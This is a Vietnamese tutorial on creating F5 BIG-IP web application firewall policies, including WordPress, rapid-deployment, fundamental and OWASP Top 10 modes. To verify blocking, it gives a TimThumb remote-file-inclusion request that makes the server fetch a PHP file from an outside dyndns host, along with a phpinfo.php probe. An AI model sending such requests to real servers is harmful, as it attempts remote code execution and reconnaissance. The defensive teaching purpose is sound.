



# Tạo security policy

Trước khi tiến hành các bước dưới đây (với bất kỳ loại policy nào), cần đảm bảo rằng ứng dụng đang hoạt động với F5 BIG-IP đóng vai trò như thiết bị cân bằng tải, reverse proxy. Nghĩa là các cấu hình liên quan như DNS, node, pool, monitor, ssl, virtual server đều đang hoạt động đúng và người sử dụng có thể truy cập bình thường.

## 1. Khởi tạo chính sách bảo mật chế độ triển khai theo loại ứng dụng (ví dụ Wordpress)
Trường hợp này, người quản trị bảo mật đã có hiểu biết rằng ứng dụng mà mình đang thiếp lập chính sách bảo mật được phát triển dựa trên wordpress
(https://vi.wordpress.org/). Không tiến hành các bước bên dưới nếu không phải.

Trên giao diện quản trị web của F5 BIG-IP, vào menu `Security` > `Application Security` > `Security Policies` > `Policies List`, bấm vào nút `Create`.

Trong màn hình tiếp theo:

- Policy Name : đặt tên cho policy, ví dụ `wordpress_waf_policy`
- Policy Template: chọn mục `Application-ready templates` > `Wordpress v4.9`
- Virtual Server: chọn virtual server sẽ apply (đang chạy Wordpress trên đó)
- Logging Profiles: chọn logging profile đã tạo ở bước trên, ví dụ `security_log_profile`

Bấm vào nút `Save` để lưu lại. Như vậy, ứng dụng đã được bảo vệ.

> Để kiểm tra xem chính sách bảo mật này có đang hoạt động hay không, có thể thử một dạng tấn công vào lỗ hổng bảo mật của Wordpress, ví dụ CVE-2014-4663 (https://blog.sucuri.net/2011/08/attacks-against-timthumb-php-in-the-wild-list-of-themes-and-plugins-being-scanned.html).
Để thực hiện khai thác lỗ hổng, gửi một GET request tới đường dẫn `/wp-content/plugins/wordpress-gallery-plugin/timthumb.php?src=http://picasa.com12345.dyndns.org/1.php`. Nếu cấu hình thành công, hệ thống F5 BIG-IP sẽ chặn khai thác này, đưa ra một thông báo lỗi và kèm theo đó là một số `Support ID`, ghi nhận lại mã số này để tra cứu log. Truy cập vào giao diện quản trị F5 BIG-IP, vào mục `Security` > `Event Logs` > `Application` > `Requests`, nhập mã Support ID vào bộ lọc tìm kiếm, ta sẽ thấy một bản ghi log liên quan đến việc F5 BIG-IP chặn lại hành vi khai thác lỗ hổng bảo mật này.

## 2. Khởi tạo chính sách bảo mật chế độ triển khai nhanh - Rapid deployment policy
Trường hợp này, người quản trị hệ thống muốn cấu hình nhanh một chính sách bảo mật mà qua đó có thể áp dụng ngay, không mất quá nhiều thời gian cho hệ thống tự học (learn) cũng như giảm thiểu tình trạng false positive alarms.
Nói chung, kiểu triển khai này có thể giải quyết được đa số các yêu cầu về bảo mật cho một ứng dụng web.

Trên giao diện quản trị web của F5 BIG-IP, vào menu `Security` > `Application Security` > `Security Policies` > `Policies List`, bấm vào nút `Create`.

Trong màn hình tiếp theo:

- Policy Name : đặt tên cho policy, ví dụ `rapid_waf_policy`
- Policy Template: chọn mục `Rapid Deployment Policy`
- Virtual Server: chọn virtual server sẽ apply (đang chạy ứng dụng trên đó)
- Logging Profiles: chọn logging profile đã tạo ở bước trên, ví dụ `security_log_profile`
- Enforcement Mode: được đặt là `Transparent` - nghĩa là hệ thống vẫn kiểm tra nhưng không chặn ngay cả khi có vi phạm. Điều này giúp người quản trị bảo mật có thời gian xem xét các thiết lập bảo mật trước khi chuyển sang chế độ `Block`. Nếu muốn, người quản trị có thể bật chế độ `Blocking` ngay tại bước này.
- Signature Staging: mặc định được bật (`Enable`), nghĩa là hệ thống sẽ chưa chặn ngay các vi phạm dựa trên signature nhằm tránh tình trạng false positive. Nếu muốn, người quản trị có thể `Disable` chế độ này luôn.
- Server Technologies: có thể nhập (chọn trong danh sách) các công nghệ mà ứng dụng đang sử dụng, ví dụ phổ biến như Apache làm web server, engine PHP, cơ sở dữ liệu MySQL.. Các thiết lập này giúp F5 BIG-IP xây dựng bộ các signature cho phù hợp.

Bấm vào nút `Save` để lưu lại. Như vậy, ứng dụng đã được bảo vệ (nếu `Enforcement Mode` là `Blocking` và `Signature Staging` là `Disable`)

> Để kiểm tra xem chính sách bảo mật này có đang hoạt động hay không, có thể thử một dạng tấn công dò quét xem hệ thống có vô tình chứa file phpinfo.php hay không (file này thường chứa hàm gọi `phpinfo()` sẽ hiện ra rất nhiều thông tin hệ thống của web server cũng như môi trường PHP, hacker có thể khai thác các thông tin này để thực hiện các hành vi tấn công nguy hiểm khác.
Để thực hiện khai thác lỗ hổng, gửi một GET request tới đường dẫn `/phpinfo.php`. Nếu cấu hình thành công, hệ thống F5 BIG-IP sẽ chặn khai thác này, đưa ra một thông báo lỗi và kèm theo đó là một số `Support ID`, ghi nhận lại mã số này để tra cứu log. Truy cập vào giao diện quản trị F5 BIG-IP, vào mục `Security` > `Event Logs` > `Application` > `Requests`, nhập mã Support ID vào bộ lọc tìm kiếm, ta sẽ thấy một bản ghi log liên quan đến việc F5 BIG-IP chặn lại hành vi khai thác lỗ hổng bảo mật này.

Để xem chi tiết hơn về những thiết lập của dạng Rapid Deployment Policy, có thể truy cập vào `Security` > `Application Security` > `Policy Building` > `Learning and Blocking Settings` (chọn đúng tên policy, ví dụ: rapid_waf_policy)

## 3. Khởi tạo chính sách bảo mật chế độ triển khai cơ bản - Fundamental
Trường hợp này, người quản trị mong muốn hệ thống F5 BIG-IP đưa ra các chính sách bảo mật tự động. Dựa vào lưu lượng thực tế F5 BIG-IP sẽ đưa ra các đánh giá và gợi ý và thậm chí tự động áp dụng các luật bảo vệ.

Trên giao diện quản trị web của F5 BIG-IP, vào menu `Security` > `Application Security` > `Security Policies` > `Policies List`, bấm vào nút `Create`.

Trong màn hình tiếp theo:

- Policy Name : đặt tên cho policy, ví dụ `fundamental_waf_policy`
- Policy Template: chọn mục `Fundamental`
- Virtual Server: chọn virtual server sẽ apply (đang chạy ứng dụng trên đó)
- Logging Profiles: chọn logging profile đã tạo ở bước trên, ví dụ `security_log_profile`
- Enforcement Mode được đặt là `Blocking` ngay khi chọn Policy Template là Fundamental
- Policy Building Learning Mode: chuyển về chế độ Automatic (Fully Automatic)
- Trusted IP Addresses: người quản trị nên thiết lập một vài địa chỉ IP hoặc dải mạng tin cậy, nhờ đó F5 BIG-IP có thể tự động thiếp lập chính sách bảo mật và không chặn các địa chỉ IP này trong quá trình học và xây dựng chính sách bảo mật.
- Policy Builder Learning Speed: mặc định là `Medium` (học càng chậm càng chặt chẽ nhưng đòi hỏi ứng dụng có nhiều người truy cập hàng ngày và ngược lại)
- Signature Staging: mặc định được bật (`Enable`), nghĩa là hệ thống sẽ chưa chặn ngay các vi phạm dựa trên signature nhằm tránh tình trạng false positive. Nếu muốn, người quản trị có thể `Disable` chế độ này luôn.
- Server Technologies: có thể nhập (chọn trong danh sách) các công nghệ mà ứng dụng đang sử dụng, ví dụ phổ biến như Apache làm web server, engine PHP, cơ sở dữ liệu MySQL.. Các thiết lập này giúp F5 BIG-IP xây dựng bộ các signature cho phù hợp.

Bấm vào nút `Save` để lưu lại. Như vậy, ứng dụng đã được bảo vệ (nếu `Enforcement Mode` là `Blocking` và `Signature Staging` là `Disable`)

Bước tiếp theo, từ các địa chỉ Trusted IP, người dùng, người quản trị làm việc, thao tác với ứng dụng như bình thường để hệ thống F5 BIG-IP thu thập dữ liệu, học và gợi ý các chính sách.

Để xem hệ thống gợi ý những gì, truy cập vào `Security` > `Application Security` > `Policy Building` > `Traffic Learning`

Ví dụ như hình minh hoạ dưới đây:

Người quản trị có thể chọn một trong các hành động:

- Accept: chấp nhận gợi ý, chuyển thành thiết lập chính thức. Để ý phần score (%), con số này càng lớn nghĩa là F5 BIG-IP càng tự tin với gợi ý đó, khả năng gợi ý chính xác càng cao.
- Delete: xoá gợi ý này, không lưu gì vào policy. Gợi ý có thể lặp lại lần sau nếu có lưu lượng phù hợp. Trường hợp người quản trị chưa chắc chắn lắm về gợi ý có chính xác không nhưng muốn xoá tại thời điểm hiện tại
- Ignore: bỏ qua gợi ý này và yêu cầu F5 BIG-IP không lặp lại gợi ý như vậy nữa (nghĩa là báo với hệ thống này rằng gợi ý như vậy là không đúng, không cần thay đổi gì về policy)
- Export: lưu thông tin gợi ý này ra một file html để nghiên cứu phân tích hoặc gửi đi các bộ phận khác tham khảo trước khi quyết định.

Sau khi hoàn tất quá trình Review các gợi ý, nếu người quản trị muốn apply ngay cách luật đã được chấp nhận, bấm vào nút `Apply Policy`

Để xem các thiết lập hiện thời, truy cập vào `Security` > `Application Security` > `Policy Building` > `Learning and Blocking Settings`

Để xem chi tiết về những File types, Parameters.. mà hệ thống học được, truy cập vào `Security` > `Application Security` > `File types` hoặc `Parameters`..

Ví dụ như hình minh hoạ dưới đây, hệ thống đã học được một số loại file types như png, php 

Ví dụ như hình minh hoạ dưới đây, hệ thống tự học được các dạng file như jpg, png, php. Có 2 loại đặc biệt là * và no_ext:
- `*` nghĩa là các loại file còn lại (wildcard)
- `no_ext` nghĩa là không có phần mở rộng file nào trong URL

Tương tự như với 2 loại tạo chính sách bảo mật ở trên, người quản trị cũng có thể kiểm thử việc chặn truy cập không hợp lệ bằng một số kiểu tấn công/khai thác nào đó (Command Injection, SQL Injection, Cross-site scripting..).

## 4. Khởi tạo chính sách bảo mật để chặn lọc các tấn công theo OWASP Top 10
Trường hợp này, người quản trị bảo mật có mong muốn cấu hình các chính sách bảo mật nhằm ngăn chặn các tấn công được liệt kê trong danh sách Top 10 của OWASP.

> Lưu ý: đây chỉ là các gợi ý, dẫn dắt (guide) của F5 BIG-IP về việc thiết lập một hệ thống WAF sao cho tuân thủ và chống lại được top 10 loại tấn công được liệt kê của tổ chức OWASP. Trong quá trình thiết lập, người quản trị cần **cân nhắc kỹ càng** mỗi khi cấu hình một mục nào đó. Đồng thời, có một số mục nằm ngoài hệ thống WAF này, nhưng vẫn là một mục cần phải làm để tuân thủ, hệ thống này **tin tưởng hoàn toàn** vào người quản trị khi đưa ra quyết định rằng: *"tôi đã thực hiện điều đó rồi"*.

Trên giao diện quản trị web của F5 BIG-IP, vào menu `Security` > `Guided Configuration` > `Web Application Protection`.

Bên dưới có 3 mục nhỏ:
- Web Application Comprehensive Protection: hệ thống sẽ hướng dẫn người quản trị cấu hình bảo vệ ứng dụng web một cách toàn diện (bao gồm cả WAF, DDOS, Bot Defense, hạn chế truy cập theo vùng địa lý, chặn địa chỉ IP độc hại)
- Web Application Protection: hệ thống sẽ hướng dẫn người quản trị cấu hình bảo vệ web với chức năng WAF. Ví dụ để bảo vệ trước các dạng tấn công Top 10 OWASP
- Traffic Security Policy: Thực hiện các chức năng bảo vệ (WAF) theo những điều kiện nhất định mà người quản trị cần chỉ rõ

Trong phạm vi của hướng dẫn này, ta chọn mục thứ 2: **Web Application Protection**.

Tại màn hình tiếp theo, hệ thống gợi ý về những việc cần/sẽ thực hiện. Trong đó có một số yêu cầu bắt buộc:

- Cấu hình DNS cho F5 BIG-IP, nếu người quản trị chưa thực hiện, có thể bấm vào đường link tương ứng để đến phần config DNS. Người quản trị có thể chọn bất cứ một DNS server nào cho phép truy vấn recursive, ví dụ 8.8.8.8 và/hoặc 1.1.1.1
- Cấu hình NTP cho F5 BIG-IP, phần này là để F5 BIG-IP có thể đồng bộ thời gian chính xác cho bản thân nó. Có thể chọn máy chủ vn.pool.ntp.org
- F5 BIG-IP cần có một default route và được phép truy cập trực tiếp ra Internet để có thể thực hiện các chức năng của mình, ví dụ cập nhật signature, database địa chỉ IP..

Cần thực hiện đầy đủ 3 mục trên trước khi bấm `Next` ở màn hình này.

Tiếp theo, hệ thống sẽ yêu cầu nhập vào hoặc lựa chọn các thông tin:
- Security Policy Name: đặt tên cho policy, ví dụ `top10owasp`
- Select Enforcement Mode: chọn Transparent nếu không muốn hệ thống WAF chặn truy cập vi phạm, chọn Block nếu muốn chặn ngay.
- Select type of policy to protect application: chọn `Application Specific` và chọn loại ứng dụng đang cần cấu hình bảo vệ (Drupal, SharePoint, Wordpress, OWA Exchange), nếu không nằm trong danh sách hoặc không rõ, chọn `Generic`
- Application Language: để mặc định là `Unicode (utf-8)`

Bấm `Save & Next`. 

Tại màn hình tiếp theo, chọn `Assign Policy to Virtual Server(s)`. Ở bước này, người quản trị có 2 lựa chọn:
- Use Existing: sử dụng một virtual server đã cấu hình sẵn và đang hoạt động bình thường (**khuyến nghị chọn mục này**, vì trước khi cấu hình WAF, người quản trị nên hoàn thành để sau dễ troubleshoot, rollback)
- Create New: tạo mới virtual server ngay tại màn hình này. Hệ thống yêu cầu người quản trị nhập vào các thông tin cần thiết để có thể tạo virtual server.

Bấm `Save & Next`. 

Màn hình tiếp theo, hệ thống thông báo là các thông tin cần thiết đã đủ, sẵn sàng deploy. Bấm vào nút `Deploy`

Màn hình tiếp theo, hệ thống thông báo các cấu hình đã được deploy. Bấm vào nút `Finish`.

Người quản trị cần thực hiện thêm một bước nữa: cấu hình/áp dụng security log profile cho virtual server đang bảo vệ. Vào menu `Local Traffic` > `Virtual Servers` > bấm vào `Virtual Server List`. 
Sau đó, click chọn virtual server đang cần bảo vệ để xem cấu hình. Tại màn hình tiếp theo, chọn Tab `Security` > `Policies`. 
Phần `Log Profile`, chọn security log profile muốn áp dụng rồi click vào nút `Update`. Có thể chọn một trong 2 loại có sẵn như `Log all requests` hoặc `Log illegal requests`, hoặc cũng có thể chọn loại đã được cấu hình từ trước như phần đầu của tài liệu này (bên trên, trong phần `Cấu hình lưu log các vi phạm`)

Xem lại tình trạng tuân thủ phòng chống Top 10 OWASP, truy cập vào `Security` > `Overview` > `OWASP Compliance`, click chọn policy vừa tạo.
Màn hình bên trái sẽ hiện ra tình trạng tuân thủ với Top 10 OWASP

Như hình minh họa phía trên nghĩa là tỉ lệ tuân thủ là 0/10 - chưa có mục nào tuân thủ hoàn toàn. Trong đó mục A2 và A3 chỉ tuân thủ 1 phần (theo % tương ứng được hiển thị).

Người quản trị cần xem chi tiết các mục và đánh giá xem có cần thực hiện các biện pháp gì, cấu hình gì để đảm bảo tuân thủ.

Ví dụ với mục **A1 Injection**, bấm vào đó, hệ thống sẽ cho chúng ta biết cần áp dụng:

- Danh sách các loại signature chống tấn công (Buffer Overflow, Command Execution..)
- Thực hiện thiết lập bảo vệ chống các cơ chế che dấu tấn công (Evasion Techniques)

Đối với các loại signature, bấm vào con số tương ứng (số lượng yêu cầu), hệ thống sẽ đưa ra màn hình cấu hình các signature, ví dụ bấm vào số 6, mục Buffer Overflow, hệ thống chỉ ra các signature cần áp dụng như hình minh họa dưới đây:

Như trường hợp trên, cả 6 signature này đang được cấu hình trong policy, tuy vậy chúng ở chế độ Staging (theo dõi vi phạm, chưa chặn ngay để tránh nhầm lẫn). Người quản trị cần test kỹ ứng dụng (và rà soát Event Logs) xem có khả năng bị chặn nhầm không? Nếu không, có thể chuyển từ chế độ Staging thành Enforce bằng cách chọn các signature đó và click vào nút `Enforce` và click vào `Apply Policy`.

Sau đó lại quay trở lại màn hình `OWASP Compliance`, lúc này sẽ thấy tỉ lệ tuân thủ cho mục A1 tăng lên (ví dụ, không còn là 0% nữa).
Thực hiện các bước tương tự với tất cả các loại Signature khác.

Riêng đối với một số cơ chế bảo vệ, ví dụ `Evasion Techniques`, người quản trị có 2 lựa chọn:

- Bỏ qua (ignore): bấm vào biểu tượng có hình tròn và đường gạch chéo

Sau đó click vào `Review & Update` và `Save & Apply`. Lúc này hệ thống hiểu rằng người quản trị không muốn áp dụng cơ chế này (có thể làm ảnh hưởng đến hoạt động bình thường của ứng dụng, chấp nhận rủi ro) nhưng vẫn muốn đánh dấu hạng mục này là hoàn thành (để đạt được 100%)

- Áp dụng (Enforce): bấm vào biểu tượng có dấu tick

Sau đó click vào `Review & Update` và `Save & Apply`. Lúc này hệ thống hiểu rằng người quản trị muốn áp dụng cơ chế bảo vệ này, và đánh dấu hoàn thành công việc.

Cứ như vậy, người quản trị làm lần lượt từ mục A2 đến A10, đôi khi, làm mục này xong thì tỉ lệ tuân thủ các mục khác cũng tự tăng lên vì chúng có cùng yêu cầu bảo mật. Ví dụ nếu hoàn thành A1 (100%), ta cũng sẽ được kết quả như sau:

Một số mục có tính chất *gợi ý*, không có tác động nào thực tế được thực hiện, chẳng hạn mục A10:

- Log Illegal Requests: ghi log các vi phạm
- Remote Logging: ghi log ra log server bên ngoài

Người quản trị hệ thống có thể cấu hình trên F5 BIG-IP để thực hiện các yêu cầu này hoặc không (tự giác), sau đó đánh dấu vào là đã tuân thủ hoặc bỏ qua.

Cá biệt, có những yêu cầu nằm ngoài hoàn toàn hệ thống F5 BIG-IP, chẳng hạn vấn đề rò quét lỗ hổng, cập nhật bản vá như dưới đây:

Nếu đã, đang và sẽ thực hiện định kỳ đầy đủ các hạng mục này, người quản trị có thể click vào nút đáp ứng "Requirement fulfilled".

Thực hiện tuân thủ Top 10 OWASP là một nỗ lực tập thể, nhiều thành phần cùng phải thực hiện. Hệ thống F5 BIG-IP chỉ đóng vai trò dẫn hướng và cấu hình các cơ chế bảo mật nhất định mà nó kiểm soát được.
